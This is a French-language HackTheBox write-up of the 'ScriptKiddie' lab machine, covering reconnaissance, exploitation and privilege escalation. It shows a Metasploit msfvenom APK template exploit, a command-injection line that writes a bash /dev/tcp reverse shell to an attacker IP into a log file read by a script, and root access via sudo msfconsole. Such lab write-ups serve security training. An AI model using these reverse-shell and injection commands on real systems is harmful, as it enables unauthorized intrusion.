









<br/>

<p align="center">
 <h2 align="center">ScriptKiddie</h2>
</p>
</br>

<p align="left">
 <h3 align="left">Table of Contents</h4>
</p>
<hr size=1px>


<ol type=I>
      <li><a href="#box">Box</a></li>
      <li><a href="#profile">Profile</a></li>
      <li><a href="#Information Gathering">Information Gathering</a></li>
      <ol>
          <li><a href="#1.scan port">Scan Port</a></li>
          <li><a href="#2.web">Web</a></li>
      </ol>
      <li><a href="#exploit">Exploit</a></li>
	  <li><a href="#privilege escalation">Privilege Escalation</a></li>
      <ol>
          <li><a href="#1.user">User</a></li>
          <li><a href="#2.root">Root</a></li>
      </ol>


<p align="left">
 <h4 align="left">Box</h4>
</p>
<hr size=1px>

<a href="https://app.hackthebox.eu/machines/314" alt="Box">
</a>


<p align="left">
 <h4 align="left">Profile</h4>
</p>
<hr size=1px>

<a href="https://www.hackthebox.eu/home/users/profile/308632"></a>


<p align="left">
 <h4 align="left">Information Gathering</h4>
</p>
<hr size=1px>


Débutons par un scan nmap.


<p align= "left">
 <h6 align= "left"><U>1.Scan Port</U></h6>
</p>

> sudo nmap -sSV -sC -oN nmap/initial 10.10.10.226

- `-sV : Détection de version sur les services utilisé.`
- `-sS :  SYN Scan, scan plutôt furtif.`
- `-sC : Exécute une série de scripts sur les services trouvé.`
- `-oN : Sauvegarde l'output de namp dans un fichier.`

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 16:09 CEST
Nmap scan report for 10.10.10.226
Host is up (0.070s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.19 seconds
```

On peut voir que le port 22(ssh) et le port 5000(Werkzeug) qui est un serveur web.

Allons voir de plus près ce qu'il y a sur ce serveur web.


<p align= "left">
 <h6 align= "left"><U>2.Web</U></h6>
</p>

À première vue, on dirait que l'on peut exécuter divers services sur cette page, scan nmap, création de payload avec msfvenom, recherche d'exploit avec searchploit.



Dans notre cas, nous allons nous concentrer principalement sur l'exécution du msfconsole.



Une option est possible sur ce dernier, celle du `template file`, en faisant une recherche avec searchsploit on s'aperçoit qu'il existe une faille. 


> searchsploit msfvenom template
>



Cet exploit fonctionne sur les commande msfvenom avec comme os APK(android).

Sur le site web, il y avait plusieurs distribution disponible, vérifions s'il possède cette distribution.

En effet, ce dernier le possède bien, allons créer notre payload.




<p align="left">
 <h4 align="left">Exploit</h4>
</p>
<hr size=1px>
Il est possible de créer ce payload via l'outil metasploit.

> sudo msfconsole

Recherchons la faille dessus.

> search msfvenom



Pour l'utiliser, nous pouvons utiliser la commande `use 0`.

> use 0
>

Regardons les prérequis pour utiliser cet exploit.

> options



Ils nous demandent de mettre une ip qui est dans le même réseau que la cible, ainsi que le port que nous allons ouvrir pour recevoir la connexion.


Dans mon cas, je dois modifier l'ip, car elle n'est pas dans le même réseau que la cible.

> set LHOST 10.10.14.16
>



Tout est bon maintenant, le payload va nous créer un reverse shell avec netcat, le payload sera dans un fichier nommé `msf.apk`, et se connectera sur l'ip `10.10.14.16` et sur son port `4444`.

> exploit

```
[+] msf.apk stored at /root/.msf4/local/msf.apk
```

Ils nous ont créé le fichier dans le repertoire /root/.msf4/local/

Déplaçons ce fichier dans notre répertoire actuel.

> sudo mv /root/.msf4/local/msf.apk .
>

> ls -l

```bash
total 8,0K
-rw-r--r-- 1 root   root   1,7K  5 avril 16:33 msf.apk
drwxr-xr-x 2 ethost ethost 4,0K 22 mars  21:06 nmap
```


On va débuter l'écoute sur le port `4444`.

> nc -lnvp 4444


Allons upload notre payload sur le site.



Générons le fichier pour que notre payload soit exécuté.

```
Connection from 10.10.10.226:53498
whoami
kid
```

Nous voilà maintenant sur la machine cible.


<p align="left">
 <h4 align="left">Privilege Escalation</h4>
</p>
<hr size=1px>


Avant de commencer la recherche d'escalade de privilège, nous allons nous créer un meilleur shell.


Regardons si la machine possède python3.

> which python3 

```bash
/usr/bin/python3
```

Parfait, la machine possède python3, nous pouvons donc `upgrade` notre shell.


> python3 -c 'import pty;pty.spawn("/bin/bash")'


Cette commande va nous permettre de pouvoir clear notre console(CTRL+L).

> export TERM=xterm


Quitter le terminal actuel avec le raccourci CTRL+Z


Puis exécuter la commande suivante.

> ```
> stty raw -echo; fg
> ```

Cette dernière commande nous permettra d'avoir l'autocomplétion des commande ainsi que la tabulation et d'autres.


<p align= "left">
 <h6 align= "left"><U>1.User</U></h6>
</p>
Pour résumer, nous sommes connectés sur l'utilisateur `kid`.

Regardons ce qu'il possède dans son home.

> ls -la

```
drwxr-xr-x 11 kid  kid  4096 Feb  3 11:49 ./
drwxr-xr-x  4 root root 4096 Feb  3 07:40 ../
lrwxrwxrwx  1 root kid     9 Jan  5 20:31 .bash_history -> /dev/null
-rw-r--r--  1 kid  kid   220 Feb 25  2020 .bash_logout
-rw-r--r--  1 kid  kid  3771 Feb 25  2020 .bashrc
drwxrwxr-x  3 kid  kid  4096 Feb  3 07:40 .bundle/
drwx------  2 kid  kid  4096 Feb  3 07:40 .cache/
drwx------  4 kid  kid  4096 Feb  3 11:49 .gnupg/
drwxrwxr-x  3 kid  kid  4096 Feb  3 07:40 .local/
drwxr-xr-x  9 kid  kid  4096 Feb  3 07:40 .msf4/
-rw-r--r--  1 kid  kid   807 Feb 25  2020 .profile
drwx------  2 kid  kid  4096 Feb 10 16:11 .ssh/
-rw-r--r--  1 kid  kid     0 Jan  5 11:10 .sudo_as_admin_successful
drwxrwxr-x  5 kid  kid  4096 Feb  3 11:03 html/
drwxrwxrwx  2 kid  kid  4096 Feb  3 07:40 logs/
drwxr-xr-x  3 kid  kid  4096 Feb  3 11:48 snap/
-r--------  1 kid  kid    33 Apr  4 17:07 user.txt
```

Nous avons maintenant le flag user.txt.

> cat user.txt

```
kid@scriptkiddie:~$ cat user.txt 
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

Un dossier logs se trouve aussi ici, regardons ce qu'il contient.

> ls -la

```
drwxrwxrwx  2 kid kid 4096 Feb  3 07:40 ./
drwxr-xr-x 11 kid kid 4096 Feb  3 11:49 ../
-rw-rw-r--  1 kid pwn    0 Apr  4 17:08 hackers
```

On y trouve un fichier, `hackers`, il appartient à l'utilisateur kid et au groupe `pwn`.


Regardons qu'elle est se groupe.

> cat /etc/passwd

```
pwn:x:1001:1001::/home/pwn:/bin/bash
```

`pwn` n'est pas un groupe mais un utilisateur du système, regardons si nous pouvons trouver des choses intéressantes dans son home.


> ls -la ../pwn/

```
drwxr-xr-x 6 pwn  pwn  4096 Feb  3 12:06 ./
drwxr-xr-x 4 root root 4096 Feb  3 07:40 ../
lrwxrwxrwx 1 root root    9 Feb  3 12:06 .bash_history -> /dev/null
-rw-r--r-- 1 pwn  pwn   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 pwn  pwn  3771 Feb 25  2020 .bashrc
drwx------ 2 pwn  pwn  4096 Jan 28 17:08 .cache/
drwxrwxr-x 3 pwn  pwn  4096 Jan 28 17:24 .local/
-rw-r--r-- 1 pwn  pwn   807 Feb 25  2020 .profile
-rw-rw-r-- 1 pwn  pwn    74 Jan 28 16:22 .selected_editor
drwx------ 2 pwn  pwn  4096 Feb 10 16:10 .ssh/
drwxrw---- 2 pwn  pwn  4096 Apr  4 17:20 recon/
-rwxrwxr-- 1 pwn  pwn   250 Jan 28 17:57 scanlosers.sh*
```

Un script bash est présent dans son home, tous les utilisateurs du système peuvent lire se script, regardons ça.

> cat ../pwn/scanlosers.sh

```shell
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

Ce script affiche le contenu du fichier, `hackers` que nous avons trouvé plus tôt, et coupe les 3 premiers espaces avec la commande `cut`.

En regardant de plus près se script, nous pouvons voir que la variable `log` ne possède pas de quote lors du `cat`, cela signifie que nous pouvons exécuter du code à ce moment.

Nous pouvons alors rentrer, un reverse shell dans le fichier `hackers` qui sera exécuter par le script.

Nous allons lancer une écoute sur le port `5555` (étant donné que nous déjà sur un reverse shell en 4444 nous ne pouvons pas réutiliser ce port).

> nc -lnvp 5555


Implémentons le reverse shell avec ce que l'on a pu voir au-dessus.

> echo "  ; /bin/bash -c 'exec bash -i &>/dev/tcp/10.10.14.16/5555 <&1' #" > hackers

1. Le "echo > hackers" va mettre notre code dans le fichier et écraser le texte déjà présent.

2. "  ; " nous mettons 2 espaces suivant d'un `;` puis d'un nouvel espace afin d'échapper l'instruction `cut -d' ' -f3-`.

3. "/bin/bash -c 'exec bash -i &>/dev/tcp/10.10.14.16/5555" nous exécutons un reverse shell en bash sur l'ip `10.10.14.16` et son port `5555`

4. "#" nous finissons par un `#` pour commenter le reste du code. 

   

```
Connection from 10.10.10.226:36008
```

```
pwn@scriptkiddie:~$ whoami
whoami
```

Nous voilà maintenant sur l'utilisateur `pwn`.


<p align= "left">
 <h6 align= "left"><U>2.Root</U></h6>
</p>
Avec la commande `sudo -l` nous pouvons voir que l'utilisateur `pwn` peut exécuter metasploit en tant que root.

> sudo -l

```
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

En faisant `sudo msfconsole` nous pouvons toujours utiliser des commandes du système et cette fois en tant que root.

> whoami

```
msf6 > whoami
root
```

Nous pouvons donc naviguer dans le dossier `root` et cat le flag qui se trouve dans le fichier `root.txt`.

> cd /root
>
> cat root.txt

```
msf6 > cat root.txt
XXXXXXXXXXXXXXXXXXXXXXXXXX
```


Cela conclut donc la box <u>ScriptKiddie</u>  sur la plateforme <u>HackTheBox</u>
<u>Ethost.</u>